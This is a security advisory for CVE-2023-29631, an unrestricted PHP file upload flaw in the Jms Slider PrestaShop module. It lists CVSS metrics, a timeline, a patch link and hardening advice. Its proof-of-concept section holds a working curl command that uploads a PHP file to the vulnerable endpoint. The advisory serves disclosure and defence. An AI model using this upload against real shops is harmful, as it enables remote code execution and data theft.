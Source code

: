 ```yaml
---
layout: post
title: "[CVE-2023-29631] Unrestricted upload vulnerability in Jms Slider (jmsslider) PrestaShop module"
categories: modules
author:
- Creabilis.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop"
severity: "critical (9.8)"
---
```


The module Jms Slider (jmsslider) from Joommasters contains an unrestricted upload of file with dangerous type vulnerability.
This module is for the PrestaShop e-commerce platform and mainly provided with joo masters PrestaShop themes

## Summary

* **CVE ID**: [CVE-2023-29631](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29631)
* **Published at**: 2023-03-13
* **Advisory source**: Joomasters
* **Platform**: PrestaShop
* **Product**: jmsslider
* **Impacted release**: All versions (at least 1.6.0)
* **Product author**: Joommasters
* **Weakness**: [CWE-434](https://cwe.mitre.org/data/definitions/434.html)
* **Severity**: critical (9.8)

## Description

ajax_jmsslider.php can be called anonymously to upload a php file that can be used for RCE.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin's ajax scripts of modules protected by token on the ecosystem

## Proof of concept

```bash
curl -v -F "data_image=@test.php" "https://preprod.XXX/modules/jmsslider/ajax_jmsslider.php?secure_key=VALUE_AVAILABLE_ON_FRONTOFFICE&action=addLayer&data_type=image&id_slide=99999"
```

## Patch
Provided by the editor
https://www.joommasters.com/index.php/blog/tutorials-and-case-studies/how-to-fix-security-bug-of-slider-security-breach-of-theme.html

## Timeline

| Date | Action |
|--|--|
| 2019-09-04 | Vulnerability publish by the editor |
| 2023-02-17 | Contact the author |
| 2023-03-13 | Publish this security advisory |

## Other recommendations

* To help improve the security of your PrestaShop installation, we recommend upgrading to the latest version. One of the benefits of upgrading is that it will disable the use of multiquery executions (separated by semicolons). However, please be aware that this **will not protect** your shop against SQL injection attacks that use the UNION clause to steal data. Additionally, it's important to note that PrestaShop includes a function called pSQL, which includes a strip_tags function. This helps protect your shop against [Stored XSS (also known as XSS T2) of Category 1](https://security.friendsofpresta.org/modules/2023/02/07/stored-xss.html). If a pSQL function is missing, it could potentially expose your project to critical Stored XSS vulnerabilities due to edge cases. Therefore, it's crucial to ensure that all relevant functions are properly implemented and used consistently throughout your project.
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Links

* [Joom masters web site](https://www.joommasters.com/)
* [Joom masters blog post on the vulnerability](https://www.joommasters.com/index.php/blog/tutorials-and-case-studies/how-to-fix-security-bug-of-slider-security-breach-of-theme.html)
